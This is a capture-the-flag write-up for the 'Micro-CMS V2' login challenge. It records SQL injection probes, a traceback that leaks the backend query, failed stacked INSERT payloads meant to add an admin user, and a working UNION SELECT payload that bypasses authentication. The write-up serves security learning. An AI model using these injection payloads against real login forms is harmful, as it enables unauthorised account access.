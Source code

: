 # Micro-CMS V2 solution

## Flags:

### Login page

Typing admin as username on login page gave Unknown user error but then I used `' or 1='1` and that gave me invalid password error.

Then I tried `' or 1='1' UNION SELECT 1,2;` which caused an error and showing me the exact SQL query being run, the type of DB and programming language used by the server.

```python
Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1")
```

Then I started trying to insert a new admin user using some of the commands below but I could not get it to work.

```sql
'; INSERT INTO admins (id, username, password) values (99, 'admin', 'admin');--
'; INSERT INTO admins (password) values ('admin');--
```

Then I gave up and googled the answer which suggested this:

```sql
' UNION SELECT "xyz" as password FROM admins where ''='';--
```

**Captured**
